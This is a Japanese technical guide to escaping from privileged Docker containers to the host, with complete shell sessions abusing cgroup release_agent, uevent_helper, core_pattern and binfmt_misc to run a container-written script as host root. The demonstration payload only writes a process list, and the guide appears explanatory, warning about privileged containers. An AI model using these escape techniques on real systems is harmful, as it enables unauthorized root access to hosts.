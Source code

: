 # ホストへのエスケープ

コンテナからホスト側にエスケープできることを、コンテナという牢獄から脱出することから「Breakout」「Jailbreak」などと呼ばれることがあります。  
ここではコンテナからホスト側への Breakout の手法について紹介します。

## Privileged Container

Privileged (特権)コンテナはホスト上の全てのデバイスへのアクセスを許可するだけでなく、AppArmor などの LSM を適用せず、Capability も過剰に与えてしまうため、適切に Isolation されていないホストのプロセスとほぼ同等のプロセスになります。  
そのため、特権コンテナを侵害された場合はホスト側にエスケープできてしまうので注意が必要です。

Linux の一部機能には任意のプログラムを実行できるヘルパー機能が多数あります。例えば `call_usermode_helper_exec()` は Linux カーネルからユーザーランドアプリケーションを実行する API などがあります。  
Privileged コンテナのように過剰な Capability を与えると、コンテナの中で特定の操作が可能な場合、この機能を利用してホスト側にエスケープすることができます。  
ここでは、そのような機能を利用してコンテナからホストへエスケープする方法をいくつか紹介します。

## cgroup release_agent

cgourp v1 には cgroup で管理されているプロセスが存在しなくなった場合にカーネルに通知を送る機能があり、その際に release_agent プログラムとしてユーザーランドのプログラムを実行することができます。  
これを利用して例えばコンテナの中で cgroupfs をマウントすることができる場合、次のようにホスト側にエスケープすることができます。

```sh
$ docker run --privileged --rm -it ubuntu:latest bash

root@927bb44baf0d:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# release_agent を有効化する
root@927bb44baf0d:/# echo 1 > /tmp/cgrp/x/notify_on_release

# ホスト側で実行するプログラムを作成
root@927bb44baf0d:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@927bb44baf0d:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを release_agent プログラムとして登録
root@927bb44baf0d:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4HN7CVYLX5VML6M3TK4HLNKHX2:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/diff,workdir=/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/work,xino=off)
root@927bb44baf0d:/# echo "/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/diff/cmd" > /tmp/cgrp/release_agent

root@927bb44baf0d:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/tmp$ head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168656 12660 ?        Ss   Nov02   0:04 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov02   0:00 [kthreadd]
```

## uevent_helper

uevent はデバイスが追加 / 削除されたときに送信されるイベントです。その際に、 `/sys/kernel/uevent_helper` に記載されているプログラムを実行します。  
これを利用して次のようにホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# ホスト側で実行するプログラムを作成
root@76017d104897:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@76017d104897:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを書き込む
root@76017d104897:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/US76JCNP5VCQ2CUZIXYAU2VIQQ:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/diff,workdir=/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/work,xino=off)
root@76017d104897:/# echo "/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/diff/cmd" > /sys/kernel/uevent_helper

# uevent を発生させる
root@76017d104897:/# echo change > /sys/class/mem/null/uevent

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/tmp$ head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168656 12660 ?        Ss   Nov02   0:04 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov02   0:00 [kthreadd]
```

## core_pattern

coredump を生成する場合に `/proc/sys/kernel/core_pattern` で出力ファイル名を変更することができますが、 `|` (パイプ) が利用できるため、コマンドの実行が可能になります。  
これを利用して次のような手順でホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# ホスト側で実行するプログラムを作成
root@204c6661f442:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@204c6661f442:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを書き込む
root@204c6661f442:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/UEAKPG6M42F22YWZ3I7HK3LESS:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c0e86fc719d1d54c718cc3d0/diff,workdir=/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c0e86fc719d1d54c718cc3d0/work,xino=off)
root@204c6661f442:/# echo "|/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c
0e86fc719d1d54c718cc3d0/diff/cmd" > /proc/sys/kernel/core_pattern

# プロセスを作り、SEGV させる
root@204c6661f442:/# sleep 100 &
[1] 16
root@204c6661f442:/# kill -SEGV 16
root@204c6661f442:/#
[1]+  Segmentation fault      (core dumped) sleep 100

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/# head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168940 13144 ?        Ss   Nov13   0:05 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov13   0:00 [kthreadd]
```

## binfmt_misc

`/proc/sys/fs/binfmt_misc` は指定したマジックナンバーや拡張子のファイルを実行する際に、指定のプログラム(インタプリタ)を実行することができます。  
これを利用することで次のようにホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# binfmt_misc をマウント
root@4af543b9eb3f:/# mount binfmt_misc -t binfmt_misc /proc/sys/fs/binfmt_misc

# ホスト側で実行するプログラムを作成
root@4af543b9eb3f:/# cat <<EOF >/cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@4af543b9eb3f:/# chmod +x /cmd

# .sh という拡張子のプログラムが実行されると cmd が実行するようにする
root@4af543b9eb3f:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/MVSWHTODE2R4PLCNOXNJ7MEHNX:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/diff,workdir=/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/work,xino=off)
root@4af543b9eb3f:/# echo ':evil:E::sh::/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/diff/cmd:OC' > /proc/sys/fs/binfmt_misc/register

# ホスト側で .sh 拡張子をもつファイルを実行すると cmd が実行される
ubuntu@docker:~$ /tmp/test.sh
ubunty@docker:~# head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168940 13144 ?        Ss   Nov13   0:05 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov13   0:00 [kthreadd]
...
```

